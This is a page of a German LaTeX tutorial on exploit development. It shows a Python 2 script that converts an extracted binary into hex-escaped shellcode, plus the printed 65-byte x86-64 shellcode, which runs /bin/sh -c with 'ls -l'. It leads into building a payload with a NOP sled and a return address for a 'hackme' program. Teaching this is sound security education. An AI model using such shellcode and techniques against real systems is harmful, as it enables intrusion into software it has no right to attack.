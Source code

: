 \documentclass[12pt]{article}
\begin{document}
Die \textbf{-O binary} Option generiert einen Speicher Dump des Inhalts der Quelldatei ohne dabei die Metainformationen zu übernehmen.
Nun muss der extrahierte Binärcode noch in Hexadezimal umformatiert werden, um ihn bequem in einem Skript nutzen zu können. Dies kann mit einem eigenen Python Skript realisiert werden, das als Ausgangspunkt für das eigentliche Skript dient.

\begin{lstlisting}
#!/bin/python2

import sys

shellcode           = ""
shellcode_length    = 0

binary = open(sys.argv[1], 'rb')

for byte in binary.read():
    shellcode = shellcode + ("\\x" + byte.encode("hex"))
    shellcode_length += 1

print(shellcode)
print("\nLength: " + str(shellcode_length))
\end{lstlisting}

Das Skript liest eine übergebene Binärdatei ein und wandelt der Reihe nach jedes Byte in seine Hexadizimalrepräsentation um. Gleichzeitig wird die Anzahl der Bytes, d.h. die Länge des Shellcodes ermittelt.
Wichtig ist, dass Python2 verwendet wird da unter Python3 für Bytes die \textbf{encode()} methode nicht mehr zur Verfügung steht. Mit diesem Skript lässt sich nun der extrahierte Binärcode in Hexadezimal umwandeln und auf der Kommandozeile ausgeben.

\begin{lstlisting}
>> ./exec_shellcode.py exec.bin 
\x48\x31\xc9\x51\x48\xb9\xff\x2f\x62\x69\x6e\x2f\x73
\x68\x48\xc1\xe9\x08\x51\x54\x5f\x48\x31\xc9\x51\x66
\x68\x2d\x63\x54\x5b\x48\x31\xc9\x51\xeb\x11\x5a\x52
\x80\x72\x05\x41\x53\x57\x54\x5e\x48\x31\xd2\xb0\x3b
\x0f\x05\xe8\xea\xff\xff\xff\x6c\x73\x20\x2d\x6c\x41

Length: 65
\end{lstlisting}

Als nächstes gilt es den Shellcode noch mit einem \textbf{NOP Sled} sowie einer \textbf{Rücksprungadresse} zu versehen um die letztendliche Payload zu erhalten. Dafür muss aber zuerst noch das \textbf{hackme} Programm analysiert werden, um die Größe des Sleds richtig wählen zu können.


\end{document}
